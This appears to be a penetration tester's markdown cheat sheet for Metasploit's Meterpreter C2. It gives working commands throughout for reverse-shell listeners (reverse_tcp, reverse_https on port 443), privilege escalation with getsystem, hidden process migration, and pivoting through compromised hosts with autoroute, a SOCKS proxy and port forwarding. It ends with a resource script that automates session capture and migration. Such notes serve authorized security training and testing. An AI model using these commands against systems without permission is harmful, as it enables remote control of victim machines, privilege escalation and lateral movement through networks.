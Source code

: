 ```yaml
---
tags:
---
```

# meterpreter

Metasploit C2

## Capabilities

### Setup listener

```bash
sudo msfconsole
# Inside metasploit
use exploit/multi/handler
set lhost tun0
set lport 9001
set payload linux/x64/meterpreter/reverse_tcp
# Windows: windows/x64/meterpreter/reverse_tcp
run -j
```

Note: The `-j` option runs the listener as a job to allow further execution

### Upgrade session from shell to meterpreter

```bash
sessions
# Sessions listed by ID
sessions -u 1
```

### Commands

```bash
# Drop into shell
shell

# Enumeration
sysinfo
getuid
netstat -ano
ps

# Check channels
channel -l
channel -i 1

# Prefix a command with "l" to run it on the local system
lpwd
/home/kali

# Get full path
search -f <file>

# Check time since last user interaction
idletime

# Attempt privilege escalation
getsystem

# Migrate to another processes (PID 8052 in this example)
migrate 8052

# Create a process to migrate to
execute -H -f notepad
migrate 2720
```

Channels are essentially sessions within an individual connection

### Routing

```bash
# Add route manually (from msfconsole after backgrounding session)
route add 172.16.5.0/24 12
route print

# Add route automatically
use multi/manage/autoroute
show options
sessions -l
set session 12
run

# Open a SOCKS proxy to enable applications outside of metasploit to use routes
use auxiliary/server/socks_proxy
show options
set SRVHOST 127.0.0.1
set VERSION 5
run -j

# Port forward (alternative to SOCKS proxy for an individual port)
portfwd add -l 3389 -p 3389 -r 172.16.5.200
```

We then just need to add `socks5 127.0.0.1 1080` to the bottom of our `/etc/proxychains4.conf` file

### Automation

We can start by configuring a normal meterpreter listener

```bash
use exploit/multi/handler
set payload windows/meterpreter_reverse_https
set lhost 192.168.119.4
set lport 443
```

We can then set `AutoRunScript` to automatically launch a background `notepad.exe` process and migrate to it

```bash
set AutoRunScript post/windows/manage/migrate
```

We can also set `ExitOnSession` to false so that we keep accepting new connections after a session is created

```bash
set ExitOnSession false
```

We can finally execute `run` with the arguments `-z`, and `-j` to run it as a job in the background and to stop us from interacting with the session

```bash
run -z -j
```

We can combine all of these commands in the the following script file named `listener.rc`

```bash
use exploit/multi/handler
set payload windows/meterpreter_reverse_https
set lhost 192.168.119.4
set lport 443
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
```

And we can then execute these commands in sequence with the `-r` option in metasploit

```bash
sudo msfconsole -r listener.rc
```

We can find default scripts via the following command

```bash
ls -l /usr/share/metasploit-framework/scripts/resource
```
